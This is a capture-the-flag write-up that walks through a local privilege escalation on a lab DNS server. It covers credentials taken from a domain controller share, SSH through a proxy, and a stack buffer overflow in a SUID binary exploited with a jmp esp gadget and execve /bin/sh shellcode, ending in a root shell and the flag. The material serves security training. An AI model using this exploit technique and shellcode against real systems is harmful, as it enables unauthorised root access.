

Dogfooding Writeup
===================
## Category
Corporate Penetration Testing

## Question
Gain privileged access on the ECWI DNS server. The flag is in the root users home folder.

## Designed Solution
Players browse the files stored on the domain controller where they find credentials and instructions to connect as a user to the DMZ DNS server and update DNS entries. Students identify and exploit the simple buffer overflow in the dns updater suid binary (Which has ASLR but not DEP enabled) and bypass ASLR leveraging a jmp esp instruction.

## Hints Given
None

## Player Solution Comments
One team solved this challenge during the competition, they used a Linux local privilege escalation exploit to gain root access.

## Writeup
We start by reading the question given to us, we know we need to gain access to the DMZ server, but aren't sure of how exactly we access it. We begin by looking around the Domain Controller with our recently obtained access to the C$ share. We can now see all of the business group's data folders in `\\ECWIDC\C$\Datastore`, we look in the `Network Admins` folder and find two documents of interest. The first is a text file containing information about how to update DNS entries and contains credentials for the DMZ DNS machine. The second file contains a network diagram.



```
C:\Users\madison.wilton\Documents>type "\\ECWIDC\C$\Datastore\Network Admin\dns_secure_update_information.txt"
type "\\ECWIDC\C$\Datastore\Network Admin\dns_secure_update_information.txt"
=== Instructions for adding ecwi.cysca DNS entries ===
1. Connect to the DMZ DNS server using SSH.
     * This cannot be done when connecting from home over the internet.
2. User is dnsmanager, password is peremptory!ching!university!exopoditic
3. Use dns-update to add dns entries
```

We see the hint about not being able to connect from home, so we decide to use ssh to connect to the DMZ DNS server via the misconfigured Squid proxy. We use the credentials supplied in the text file.

```
root@kali:~# proxychains ssh dnsmanager@172.16.5.53
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-172.16.5.30:3128-<><>-172.16.5.53:22-<><>-OK
dnsmanager@172.16.5.53's password:
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.16.0-30-generic x86_64)
------- 8< 8< 8< SNIP --------
Last login: Tue Aug 11 02:04:20 2015 from 10.0.0.1
dnsmanager@DMZDNS:~$
```

We follow the instructions and run `dns-update` and we are greeted with some usage instructions. It looks like it is custom software written by Jeremy Amadio. We run the `which` command to locate the full path to the `dns-update` file, it's path is `/usr/sbin/dns-update`. We then use `ls` and notice that the `SUID bit is set` on this executable. We then use `file` confirm it is a 32 bit ELF binary. Because of the SUID bit being set, if we can find an exploitable vulnerability in this binary we should be able to gain root access!.

```
dnsmanager@DMZDNS:~$ dns-update
You need to have the right number of params in the command line
ECWI Secure DNS Updater
Written by Jeremy Amadio
Usage: dns-update [hosteddomain] [hostname] [ip]
	 hosteddomain - The name of the domain that the host should be added to. Should always be ecwi.cysca
	 hostname - The name of the A record to be added
	 ip - The IPv4 address that the A record should include
dnsmanager@DMZDNS:~$ which dns-update
/usr/sbin/dns-update
dnsmanager@DMZDNS:~$ ls -la /usr/sbin/dns-update
-rwsr-xr-x 1 root root 9724 Aug 11 01:49 /usr/sbin/dns-update
dnsmanager@DMZDNS:~$ file /usr/sbin/dns-update
/usr/sbin/dns-update: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=2eb18ecedf3772bb78e5108cb17202b11fd39dfc, stripped
dnsmanager@DMZDNS:~$ ls -la /usr/sbin/dns-update
-rwsr-xr-x 1 root root 9724 Aug 11 01:49 /usr/sbin/dns-update
```

We play around with the input parameters and see that when we put a long string in the IP address it causes a segmentation fault, this looks promising. We open a new terminal and we use `scp` to download a copy of the binary for analysis to determine what is actually happening when it Segmentation Faults. In addition, we do this because the server doesn't have gdb installed.

```
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update example.com test 1.1.1.1
Although it works for more domains, our DNS server is only responsible for ecwi.cysca - Jeremy
The domain name is invalid
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cyscaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA test 1.1.1.1
Although it works for more domains, our DNS server is only responsible for ecwi.cysca - Jeremy
The domain name is invalid
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca infoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa 1.1.1.1
infoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa	A	1.1.1.1
Successfully added host entry to bind. Reloading Bind
 * Reloading domain name service... bind9                                                                [ OK ]
Bind reloaded successfully
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ip address part 1 is invalid
Segmentation fault (core dumped)
```
```
root@kali:~# proxychains scp dnsmanager@172.16.5.53:/usr/sbin/dns-update .
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-172.16.5.30:3128-<><>-172.16.5.53:22-<><>-OK
dnsmanager@172.16.5.53's password:
dns-update                                                                    100% 9724     9.5KB/s   00:00
```

Once we have the ELF file on our local machine, we use the script `checksec` from http://www.trapkit.de/tools/checksec.html to determine what security mitigations are compiled in. We can see that `NX is disabled`, there is no stack canary and it is `not a PIE` (Position Independant Executable).

```
root@kali:~# ./checksec.sh --file dns-update
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   dns-update
```

We use `gdb` to execute our `dns-update`, passing in the input that caused a segmentation fault on the server. GDB pops back up after catching a SEGSEGV/Segmentation Fault.

We start diagnosing the Segmentation Fault. We look at the registers and see that `EIP` is set to `0x41414141`. It looks as though some of our A's are being used as the execution address, this is probably a buffer overflow causing an overwrite of a return address on the stack. We can confirm the root cause by breaking out a disassembler, but we are under time pressure, so lets just try gain control of EIP.

```
root@kali:~# gdb dns-update
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
------- 8< 8< 8< SNIP --------
Reading symbols from dns-update...(no debugging symbols found)...done.
(gdb) r ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xb7fb7878	-1208256392
ebx            0x41414141	1094795585
esp            0xbffff3c0	0xbffff3c0
ebp            0x41414141	0x41414141
esi            0x41414141	1094795585
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

To control EIP we need to first determine how far into our input EIP is (the offset), we will use Metasploit's `pattern_create` to generate a non-repeating pattern that we can use to determine the correct offset into our input.

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

We run `dns-update` in gdb again, but this time we use output from `pattern_create` as our input. We receive another Segmentation Fault and see that EIP has changed to `0x33624132`. We can then put this value into Metasploit's `pattern_offset` to get the offset of EIP in the generated string. We find that EIP is at `offset 38` of our input.

```
(gdb) r ecwi.cysca test 1.1.1.Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x33624132 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xb7fb7878	-1208256392
ebx            0x39614138	962675000
esp            0xbffff3c0	0xbffff3c0
ebp            0x62413162	0x62413162
esi            0x41306241	1093689921
edi            0x0	0
eip            0x33624132	0x33624132
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x33624132
[*] Exact match at offset 38
```

Now that we know the offset to EIP, we will try to set it to a value of our choosing. Let's try `0x11223344`. We need to keep in mind that x86 stores numbers in a little endian format, which means the least significant byte is stored first, so our bytes will need to be `44 33 22 11`. We run the program again, however this time we use Python to generate our input. We ask Python to output `38 padding bytes` and then the string ``"\x44\x33\x22\x11"``. As expected we get another Segmentation Fault, but this time EIP is set to `0x11223344`.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"'`
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x11223344 in ?? ()
```

Now that we can control EIP, we need to point it to some shellcode that we also control. As we saw previously, the `stack is executable` in `dns-update`, so we can place shellcode in our input which will be stored on the stack. We can then point EIP at our shellcode on the stack.

We have an issue though, ASLR is enabled on the DMZ DNS server, which we can confirm with the command `cat /proc/sys/kernel/randomize_va_space` returning the value `2` which means full ASLR. This means that the stack's address will be randomized every execution, so we don't know the exact absolute address of our shellcode. To compound this issue, the server will likely have different environment variables which will cause the stack address to move a little bit aswell.

One thing we do know, is that this is a stack based buffer overflow that overwrites a return pointer on the stack. This means that assuming there is no stack adjustment with the 'ret', i.e. a 'ret 8', after our EIP is popped off the stack ESP will be pointing to the memory immediately after our EIP value. We can confirm this by adding some text after our EIP, running gdb again, waiting for the Segmentation Fault and examining the memory at ESP.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"+"IMATESP"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"+"IMATESP"'`
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x11223344 in ?? ()
(gdb) x/d $esp
0xbffff3f0:	0x54414d49
(gdb) x/d $esp-4
0xbffff3ec:	0x11223344
(gdb) x/s $esp
0xbffff3f0:	"IMATESP"
```

Ok, so why is this relevant? We saw previously that `dns-update` is `not a PIE`. Which means that the `instructions in dns-update will load at the same address every execution`. If we can find some instructions in dns-update that will redirect execution to ESP, using the address of those instructions as EIP will work across multiple executions. We use `msfelfscan` to look for instructions that will redirect execution to ESP. Examples of this are `call esp`; or `jmp esp`; or `push esp, ret`.

```
root@kali:~# msfelfscan -j esp dns-update
[dns-update]
0x080489eb jmp esp
```

We are lucky, we find a `"jmp esp"` at address `0x080489eb`. We should be able to use this address in EIP to redirect execution to the code stored in our input buffer immediately after EIP. We test this by changing the EIP value to `\xeb\x89\x04\x08` and replacing the `"IMATESP"` with `"\xcc\xcc\xcc\xcc"`. `"\xcc"` is the byte value for the mnemonic `int3` which is a software breakpoint and will cause our debugger to break when executed.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\xcc\xcc\xcc"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\xcc\xcc\xcc"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3f1 in ?? ()
(gdb) x/10i $pc
=> 0xbffff3f1:	int3
   0xbffff3f2:	int3
   0xbffff3f3:	int3
```

Success!, this time gdb broke with SIGTRAP, and EIP is `0xbffff3f1` which means that our first int3/software breakpoint was executed. Now that we are controlling EIP and getting execution of code that we control, let's insert some shellcode to spawn a shell. We won't go into writing shellcode, we will grab some shellcode that runs /bin/sh from the Internet. We found some shellcode that does this at http://shell-storm.org/shellcode/files/shellcode-752.php. We run dns-update in gdb again replacing the breakpoints (\xcc's) with the shellcode.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGILL, Illegal instruction.
0xbffff3f5 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0x0	0
ebx            0xbfff00d4	-1073807148
esp            0xbffff3d4	0xbffff3d4
ebp            0x41414141	0x41414141
esi            0x41414141	1094795585
edi            0x0	0
eip            0xbffff3f5	0xbffff3f5
eflags         0x10206	[ PF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/10i $pc
=> 0xbffff3f5:	lock pushl 0x804c018(%edi)
   0xbffff3fc:	or     %al,%al
   0xbffff3fe:	add    $0x8,%al
   0xbffff400:	pusha
   0xbffff401:	mov    %es,(%eax,%ecx,1)
   0xbffff404:	add    %al,(%eax)
   0xbffff406:	add    %al,(%eax)
   0xbffff408:	add    %al,(%eax)
   0xbffff40a:	add    %al,(%eax)
   0xbffff40c:	arpl   %bx,0x4b7e2(%edx)
(gdb) x/10wx $esp
0xbffff3d4:	0x6e69622f	0x68732f2f	0x00000000	0xe1f7c931
0xbffff3e4:	0x2f2f6851	0x2f686873	0x896e6962	0xb700b0e3
0xbffff3f4:	0xb7fff000	0x0804c018
```
Hmmm, this time we received a SIGILL. Why could this be?. We insert a `\xcc` before the shellcode so we will break before the shellcode is executed. We examine the instructions to check if the shellcode looks correct, however it doesn't look like the reference on the website we borrowed it from. It is missing the `mov al, 0x11` and `int 0x80` instructions. This is likely due to a byte value being used in the shellcode that a parsing function considers to denote the end of our buffer, a bad character.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3e1 in ?? ()
(gdb) x/10i $pc
=> 0xbffff3e1:	xor    %ecx,%ecx
   0xbffff3e3:	mul    %ecx
   0xbffff3e5:	push   %ecx
   0xbffff3e6:	push   $0x68732f2f
   0xbffff3eb:	push   $0x6e69622f
   0xbffff3f0:	mov    %esp,%ebx
   0xbffff3f2:	mov    $0x0,%al << Should be mov $0xb,%al
   0xbffff3f4:	add    %dh,%al  << Should be int $0x80
   0xbffff3f6:	pushl  0x804c018(%edi)
   0xbffff3fc:	or     %al,%al

(gdb) x/30bx $esp
0xbffff3e0:	0xcc	0x31	0xc9	0xf7	0xe1	0x51	0x68	0x2f
0xbffff3e8:	0x2f	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e
0xbffff3f0:	0x89	0xe3	0xb0	0x00	0x00	0xf0	0xff	0xb7
0xbffff3f8:	0x18	0xc0	0x04	0x08	0x08	0xc0
```

From the byte listing at `$esp` above we can see that the shellcode is complete up until the `0xb0` but it is null terminated after that. This means it is likely that `\x0b` is a bad character and we will need to fix this. `"\xb0\x0b"` are the bytes for the instruction `mov al, 0x0b`. AL needs to be set to 0xb when the `int 0x80` instruction is executed, because that tells Linux we want to call the execve syscall. Let's replace it with an equivalent couple of instructions. We will first set al to 0x0e (because \x0c\x0d are also common bad characters) and then decrement three times so it is equal to 0x0b. We will use the instructions `mov al, 0x0e` and `dec eax` 3 times. The bytes for these instructions are `"\xb0\x0e\x48\x48\x48"` so lets replace the `"\xb0\x0b"` in our input buffer with `"\xb0\x0e\x48\x48\x48"`. We now execute dns-update with our new input.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3e1 in ?? ()
(gdb) x/30bx $esp
0xbffff3e0:	0xcc	0x31	0xc9	0xf7	0xe1	0x51	0x68	0x2f
0xbffff3e8:	0x2f	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e
0xbffff3f0:	0x89	0xe3	0xb0	0x0e	0x48	0x48	0x48	0xcd
0xbffff3f8:	0x80	0x00	0x04	0x08	0x08	0xc0
(gdb) x/15i $esp
   0xbffff3e0:	int3
=> 0xbffff3e1:	xor    %ecx,%ecx
   0xbffff3e3:	mul    %ecx
   0xbffff3e5:	push   %ecx
   0xbffff3e6:	push   $0x68732f2f
   0xbffff3eb:	push   $0x6e69622f
   0xbffff3f0:	mov    %esp,%ebx
   0xbffff3f2:	mov    $0xe,%al
   0xbffff3f4:	dec    %eax
   0xbffff3f5:	dec    %eax
   0xbffff3f6:	dec    %eax
   0xbffff3f7:	int    $0x80 << END OF SHELLCODE
   0xbffff3f9:	add    %al,(%eax,%ecx,1)
   0xbffff3fc:	or     %al,%al
   0xbffff3fe:	add    $0x8,%al
```

We can see that our shellcode is all intact down to the `int 0x80` and our replacement opcodes are correct and in memory. We will continue gdb with `c` and receive a shell!

```
(gdb) c
Continuing.
process 16575 is executing new program: /bin/dash
#
```

Ok, so now we have it working in gdb, we will try our input against `dns-update` **without** gdb attached. Before we do this, we need to make sure our software breakpoint `\xcc` that we used for debugging our shellcode is removed. If it is not removed, we will get a Trace/Breakpoint trap and the program will exit before our shellcode executes.

```
root@kali:~# ./dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid
# exit
root@kali:~#
```

We get another shell! This means it should work against the version on the DMZ DNS server. We jump back to our server terminal and run dns-update with our exploit string. It works and we cat the file `/root/flag.txt` to get our final flag for the corporate penetration test section.

```
dnsmanager@DMZDNS:~$ whoami
dnsmanager
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid
# whoami
root
# ls /root/flag.txt
/root/flag.txt
# cat /root/flag.txt
FLAG{CE78BF22AE9551B0133593F8F0C21616}#
```
